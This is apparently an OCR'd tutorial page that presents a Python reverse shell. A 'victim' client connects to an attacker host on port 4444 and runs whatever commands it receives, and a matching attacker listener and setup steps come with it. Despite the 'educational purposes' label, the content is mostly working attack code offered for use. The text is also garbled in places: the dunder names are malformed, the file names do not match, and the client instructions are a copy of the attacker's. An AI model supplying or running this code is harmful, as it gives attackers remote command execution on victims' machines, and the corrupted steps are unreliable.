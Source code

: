 This is a simplified example for educational purposes only. In a real-world scenario, such tools are often much more complex and include various features for evading detection, encrypting communications, and more.

**Client.py (Victim's Machine)**
import socket//
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if _name_ == "_main_":
    main()
`
**[**Attacker.py**`]**
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 4444))  # Bind to all available interfaces on port 4444
    s.listen(1)
    print("Waiting for connection...")
    conn, addr = s.accept()
    print(f"Connected to {addr}")
    while True:
        command = input("Enter command: ")
        conn.send(command.encode())
        if command.lower() == "exit":
            break
        output = conn.recv(4096).decode()
        print(output)
    conn.close()

if _name_ == "_main_":
    start_server()

**
**Steps for execution******
Set Up the Attacker's Machine:

Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
*
*
The server will start listening for incoming connections on port 4444
**In client terminal**
Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
The server will start listening for incoming connections on port 4444.


    
